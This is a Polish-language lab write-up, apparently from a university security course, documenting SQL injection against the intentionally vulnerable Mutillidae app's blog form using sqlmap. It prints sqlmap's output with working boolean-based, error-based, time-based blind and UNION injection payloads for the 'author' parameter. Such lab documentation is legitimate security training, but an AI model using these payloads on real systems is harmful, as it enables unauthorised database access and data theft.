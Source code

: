 ## Nazwa podatności: SQLMAP Practice (SQL Injcetion - error-based oraz time-based blind)

**Istotność:** 10

---

**Opis:**
SQLMap to potężne narzędzie do automatycznego wykrywania i wykorzystywania podatności SQL Injection w aplikacjach internetowych. Jest napisane w języku Python i umożliwia atakującemu przeprowadzenie zautomatyzowanych testów penetracyjnych, identyfikując luki w zabezpieczeniach aplikacji, które mogą prowadzić do wstrzykiwania kodu SQL.

---

**Technika eksploatacji:**
Po wybraniu z listy rozwijanej użytkownika, którego blog chce się zobaczyć wysyłane jest poniższe zapytanie POST na serwer:
![image](https://github.com/GrzechuG/PWR-CBE-BAW-mutillidae-2024/assets/28838004/5e298ba7-8a60-47bc-ab5a-d2da964b306b)

Utworzono plik request.txt z zawartością powyższego zapytania.
![image](https://github.com/GrzechuG/PWR-CBE-BAW-mutillidae-2024/assets/28838004/d430c661-7a72-42cf-8d33-dc39255b3728)

Atakowanymi parametrami są oraz `author` `view-someones-blog-php-submit-button`.

Jak poniżej uruchomiono narzędzie sqlmap:
![image](https://github.com/GrzechuG/PWR-CBE-BAW-mutillidae-2024/assets/28838004/163e2db8-bdf8-48d3-9057-1086ed0c81ca)

Wykryło ono, iż parametr `author` jest podatnym parametrem. Ostatecznym wynikiem działania programu sqlmap jest:
```sqlmap identified the following injection point(s) with a total of 83 HTTP(s) requests:
---
Parameter: author (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: author=admin' AND 2783=2783#&view-someones-blog-php-submit-button=View Blog Entries

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: author=admin' AND (SELECT 9586 FROM(SELECT COUNT(*),CONCAT(0x7176717671,(SELECT (ELT(9586=9586,1))),0x716b706b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- OhCA&view-someones-blog-php-submit-button=View Blog Entries

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: author=admin' AND (SELECT 3065 FROM (SELECT(SLEEP(5)))GkAB)-- URoT&view-someones-blog-php-submit-button=View Blog Entries

    Type: UNION query
    Title: MySQL UNION query (random number) - 4 columns
    Payload: author=admin' UNION ALL SELECT 5318,5318,5318,CONCAT(0x7176717671,0x654b6f75534a4f4a415a596e4169706d436365645a45524d764b5a5078554c415779684b6b744351,0x716b706b71)#&view-someones-blog-php-submit-button=View Blog Entries
---
```


